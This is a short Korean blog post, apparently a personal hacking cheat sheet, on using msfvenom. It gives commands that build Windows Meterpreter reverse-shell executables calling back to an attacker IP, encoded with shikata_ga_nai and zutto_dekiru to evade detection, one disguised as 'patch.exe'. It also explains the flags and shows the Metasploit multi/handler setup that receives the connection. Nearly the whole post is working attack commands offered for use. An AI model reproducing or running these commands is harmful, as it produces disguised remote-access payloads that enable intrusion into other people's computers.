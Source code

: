 ```yaml
---
emoji: 🔧
title: msfvenom 사용법
date: '2025-04-01 12:00:00'
author: 양원준
tags: 블로그 github-pages gatsby
categories: hacking
image: "./img/hacker.jpg"
---
```


## 📌 msfvenom 사용법
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=(공격자ip) lport=(default=4444) -f exe -e x64/zutto_dekiru -i 3 -o /root/patch.exe

```
> -p : 페이로드 옵션을 설정    
 -o : 파일 경로와 파일명 지정    
 -e : 인코딩     
 -f : 파일 형식
 -a : 아키텍쳐     
 --platform : 플랫폼 설정\
 -i : 인코딩 횟수

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp or windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -

```toc
```